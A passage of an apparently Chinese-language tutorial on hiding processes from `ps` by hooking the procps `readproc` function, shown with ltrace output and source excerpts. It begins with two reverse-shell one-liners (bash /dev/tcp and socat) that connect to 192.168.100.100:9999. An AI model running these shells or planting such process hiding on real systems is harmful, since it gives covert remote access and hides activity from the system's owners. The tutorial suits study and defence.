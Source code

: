 1. `bash -i >& /dev/tcp/192.168.100.100/9999 0>&1`
2. `socat TCP:192.168.100.100:9999 EXEC:/bin/bash`

### 要 hook 哪個函式

首先我們可以用 `ltrace` 看 `ps` 跑起來呼叫了哪些 library 的函式

```c
...
fwrite(" [jfsCommit]\nhe]\n4\n0\n\nstart\ngrou"..., 13, 1, 0x7fbfcd303760)  = 1
readproc(0x55e061b12f90, 0x55e0609d1540, 13, 1024)                          = 0x55e0609d1540
escape_str(0x7fbfcd90b090, 0x55e0609d1740, 0x20000, 0x7fff6f748044)         = 4
strlen("root")                                                              = 4
fwrite("root", 4, 1, 0x7fbfcd303760)                                        = 1
...
```

會發現 `readproc` 一直出現，查看一下 man page

```man
NAME
       readproc, freeproc  - read information from next /proc/## entry

SYNOPSIS
       #include <proc/readproc.h>

       proc_t* readproc(PROCTAB *PT, proc_t *return_buf);
       void freeproc(proc_t *p);
```

那我們就在 `ps` 的原始碼中找一下 `readproc` 的用法，如下

```c procps-3.2.8/ps/display.c >331
  ptp = openproc(needs_for_format | needs_for_sort | needs_for_select | needs_for_threads);
  if(!ptp) {
    fprintf(stderr, "Error: can not access /proc.\n");
    exit(1);
  }
  memset(&buf, '#', sizeof(proc_t));
  switch(thread_flags & (TF_show_proc|TF_loose_tasks|TF_show_task)){
  case TF_show_proc:                   // normal non-thread output
    while(readproc(ptp,&buf)){}}
```

{% admonition question "如何取得 ps 原始碼" %}
    `ps` 這個指令是來自 `procps`，可以從 [procps.sourceforge.net](http://procps.sourceforge.net/) 下載  
    另外其他基本的 shell 指令的原始碼則可以從 [www.gnu.org/software/coreutils](https://www.gnu.org/software/coreutils/) 下載
{% endadmonition %}

* 基本上就是先 `openproc` 然後再用 `readproc` 一次讀一個 process entry
* `ptp` 的型態是 [`PROCTAB*`](https://fossies.org/dox/procps-3.2.8/structPROCTAB.html)，裡面有 linked list 的結構，讓程式能找到下一個 process
* `buf` 的型態是 [`proc_t*`](https://fossies.org/dox/procps-3.2.8/structproc__t.html)，包含了 process 的資訊
* 那我們就去 hook `readproc` 這個函式，把想隱藏的 procss 跳過

